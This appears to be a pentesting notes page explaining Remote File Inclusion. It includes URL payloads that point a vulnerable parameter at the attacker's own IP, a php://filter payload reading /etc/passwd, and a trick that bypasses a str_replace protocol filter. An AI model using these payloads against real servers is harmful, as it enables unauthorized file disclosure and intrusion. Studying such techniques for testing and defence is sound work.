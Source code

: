 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Remote File Inclusion

Also known as RFI, an attacker can redirect actions to or from another server.&#x20;

Here we find a typical process for leveraging this vulnerability:

* Redirect actions of a server via URL parameters

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#It's searching for a file
http://$url/$query?$param=hola.php
<strong>#We can do a redirection to another site
</strong>http://$url/$query?$param=http://$url
#Or a redirection to a local server
http://$url/$query?$param=//$myip
</code></pre>

***

* Sometimes, we will need to check the page code to see the input conditions

{% tabs %}
{% tab title="Case 1" %}
We find that the code is blocking the connection through the HTTP protocol

{% code title="Example source code" overflow="wrap" lineNumbers="true" %}
```php
...
$file = str_replace( array( "http://", "https://" ), "", $file );
...

```
{% endcode %}

In this case, we can try to use another connection protocol

```bash
http://$url/$query?$param=php://filter/resource=/etc/passwd
```

Also if we use `hthttp://tp://` the code will do the replacement and leave us anyway with `http://`, and we will also bypass this verification

```bash
http://$url/$query?$param=hthttp://tp://$url
```
{% endtab %}
{% endtabs %}
